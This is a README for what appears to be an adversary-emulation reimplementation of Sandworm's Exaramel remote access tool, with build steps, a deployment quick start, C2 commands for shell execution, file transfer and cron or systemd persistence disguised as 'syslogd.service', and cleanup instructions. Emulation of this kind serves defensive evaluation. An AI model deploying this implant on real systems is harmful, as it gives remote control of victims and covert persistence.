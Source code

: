 # Exaramel

Exaramel is a Remote Access Tool known to be used by Sandworm to achieve C2 over HTTPS with their 
target systems. There exist versions for both Linux and Windows. While Go is a language that enables 
cross-compilation, the Linux and Windows specimens that were discovered and analyzed presented many 
differences in how they functioned. As a result, for the purposes of this evaluation, the code base 
for Exaramel has been split into two.

Exaramel for Linux provides basic RAT functionality. Specifically, it provides command execution and file upload and download capabilities. On startup, it creates a named UNIX domain socket which is used to ensure that it is the only instance of Exaramel running on the system. If a configuration file does not exist, it then writes one with default values. Lastly, Exaramel is supposed to automatically establish persistence, either through a user `crontab` or by writing a `systemd` service. However, for this evaluation, we have changed persistence to be established on demand, only when the RAT receives the specific command from the C2 server.


## Quick Start

```bash
# automatically build Exaramel for Linux and Windows; look for 'Exaramel-Linux' and 'Exaramel-Windows' in the Exaramel directory
make
ls -lsah

# upload Exaramel to target
How you get here is up to you

# Linux only: once the binary is on the target filesystem, set execute permissions
chmod 755 Exaramel-Linux
./Exaramel-Linux

# Windows
.\Exaramel-Windows
```

## Build Instructions

Use the 'make' utility as follows:

```bash
# automatically build Exaramel for Linux and Windows; look for 'Exaramel-Linux' and 'Exaramel-Windows' in the Exaramel directory
make
ls -lsah
```

## Test Instructions

```bash
go test ./...
````

## Usage Examples

#### Linux

Execute the agent:

    ```bash
    ./exaramel -server=<server_ip:port>
    ```

Commands to receive from the server:

    Set persistence:
        persist [cron|systemd]
    
    Execute a shell command:
        exec <shell_command>

    Download a file from the target:
        get <file_on_target> <filename_to_save_as>

    Upload file to target:
        put <file_to_upload> <filepath_on_target_to_upload_to>

Provide a command to the C2 Server:

    ./evalsC2Client.py --set-task exaramel-implant <command>

### Cleanup Instructions

Kill the Exaramel process and delete its binary from disk:

```bash
sudo pkill Exaramel-Linux
shred Exaramel-Linux
```

Delete persistence:

```
# Delete systemd stuff
systemctl disable syslogd.service
systemctl stop syslogd.service
shred /etc/systemd/system/syslogd.service

# Cleanup Exaramel-Linux socket
shred /tmp/.applocktx
```

### CTI Evidence

https://www.welivesecurity.com/2018/10/11/new-telebots-backdoor-linking-industroyer-notpetya/

https://www.cert.ssi.gouv.fr/uploads/CERTFR-2021-CTI-005.pdf


